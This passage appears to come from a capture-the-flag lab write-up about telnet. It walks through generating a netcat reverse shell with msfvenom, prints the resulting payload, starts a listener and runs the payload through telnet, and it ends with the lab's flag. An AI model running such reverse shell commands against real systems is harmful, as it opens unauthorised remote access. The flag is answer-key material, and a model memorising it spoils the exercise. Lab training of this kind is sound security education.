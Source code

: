 * Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N) `Y`

* We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

```
-p = payload
lhost = our local host IP address
lport = the port to listen on
R = export the payload in raw format
```

What word does the generated payload start with?

We use : `msfvenom -p cmd/unix/reverse_netcat lhost=local lport=4444 R`.  
The output is : `mkfifo /tmp/jwgd; nc 10.10.54.200 4444 0</tmp/jwgd | /bin/sh >/tmp/jwgd 2>&1; rm /tmp/jwgd`.  
local is the local ip not the ip machine.

Therefore, the generated payload start with `mkfifo`.

* Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

What would the command look like for the listening port we selected in our payload? `nc -lvp 4444`

* Success! What is the contents of flag.txt?

We use `nc -lvp 444` on one terminal. In an other we connecte with telnet : `telnet ip_machine 8012` and run the payload : `.RUN mkfifo ...`.   
On the terminal with netcat we can use the shell, so `ls` and find a `flag.txt` file.  
We read it and the content is `THM{y0u_g0t_th3_t3ln3t_fl4g}`.

# [Task 8] - Understanding FTP
